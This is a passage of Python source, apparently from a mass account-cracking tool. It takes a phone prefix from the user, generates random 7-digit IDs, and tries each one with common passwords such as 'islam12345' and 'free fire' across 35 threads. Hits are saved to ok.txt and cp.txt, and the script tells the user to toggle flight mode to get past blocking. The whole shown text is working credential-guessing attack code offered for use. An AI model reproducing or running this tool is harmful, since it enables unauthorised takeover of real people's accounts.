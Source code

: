 		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode,'free fire','bangladish','freefire']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#___
def bd3():
	uid=[]
	os.system('clear')
	print(logo)
	print('[âˆš] EXAMPLE : 88***,88***,88***,.ETC')
	linex()
	kode = input('[+]\033[1;37m PUT YOUR SIM CODE : ')
	os.system('clear')
	print(logo)
	print(' Example : 1000,5000,10000,****Etc')
	limit = int(input('[+] Putt Ypur Idz lemit :  '))
	for nmbr in range(limit):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		uid.append(nmp)
	with ThreadPool(max_workers=35) as yaari:
		os.system('clear')
		print(logo)
		tl = str(len(uid))
		print(' Total Acounts : '+tl)
		print(' Selected Code : \x1b[1;92m'+kode)
		print('\x1b[1;91m If you no result use flight mode')
		linex()
		for guru in uid:
			uid = kode+guru
			pwx = [guru,kode,'puja12','islam12345','islam1122']
			yaari.submit(fcrack,uid,pwx,tl)
	linex()
	print('[âœ“] Crack process has been completed')
	print('[?] Idz saved in [ok.txt,cp.txt]')
	linex()
	input('Press Enter To Go Back To Menu')
	menu()
#___
def chos():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print('\x1b[1;91m[+] See Not : Use Your Sim Code ')
    linex()
    code = input(' Your Code : ')
    linex()
    os.system('clear')
    print(logo)
    print('[+] Example : 1000,5000,10000,****Etc')
    linex()
    limit = int(input('[+] Idz lemit :  '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)